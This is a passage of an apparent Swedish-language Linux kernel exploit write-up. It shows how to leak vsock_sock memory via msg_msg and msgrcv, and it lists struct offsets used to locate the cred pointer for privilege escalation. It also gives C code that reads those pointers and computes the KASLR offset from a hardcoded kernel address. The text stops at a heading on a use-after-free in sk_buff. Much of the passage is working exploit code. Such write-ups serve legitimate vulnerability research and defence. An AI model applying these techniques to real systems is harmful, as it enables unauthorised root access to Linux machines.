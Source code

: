 ![](T0140baae964febb059.png "T0140baae964febb059.png")

Läs innehållet i kärnobjektet vsock_sock till användarutrymmet genom att ta emot meddelandet från meddelandekön som lagrar det överskrivna msg_msg:

    ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                    IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

Hitta målet för attack
----------------------

Här är de punkter jag hittade: 1. Dedikerad blockcache, till exempel PINGv6 och sock_inode_cache, har många pekare på objekt 2. Struct mem_cgroup \* sk_memcg-pekaren är vid offset 664 i vsock_sock.sk. Mem_cgroup-strukturen tilldelas i kmalloc-4k blockcache. 3. Pekaren för const struct cred \* -ägaren är vid offset 840 i vsock_sock.sk och lagrar adressen för referensen som kan skrivas över för tillståndsupptrappning. 4. Tomrumsfunktionen (\* sk_write_space) (struct sock \*) är vid offset 688 för vsock_sock.sk och är inställd på adressen till kärnfunktionen sock_def_write_space (). Den kan användas för att beräkna KASLR-offset.

Här är hur sårbarheten extraherar dessa pekare från minnet:

    #define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
    #define OWNER_CRED_OFFSET    840
    #define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
    #define SK_WRITE_SPACE_OFFSET    688
    #define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)
    /*
     * From Linux kernel 5.10.11-200.fc33.x86_64:
     *   function pointer for calculating KASLR secret
     */
    #define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu
    unsigned long sk_memcg = 0;
    unsigned long owner_cred = 0;
    unsigned long sock_def_write_space = 0;
    unsigned long kaslr_offset = 0;

    /* ... */

        sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
                sk_memcg, SK_MEMCG_RD_LOCATION);

        owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
                owner_cred, OWNER_CRED_RD_LOCATION);

        sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
        printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
                sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

        kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
        printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);

Implementera Use-after-free på sk_buff
---------------------------------------
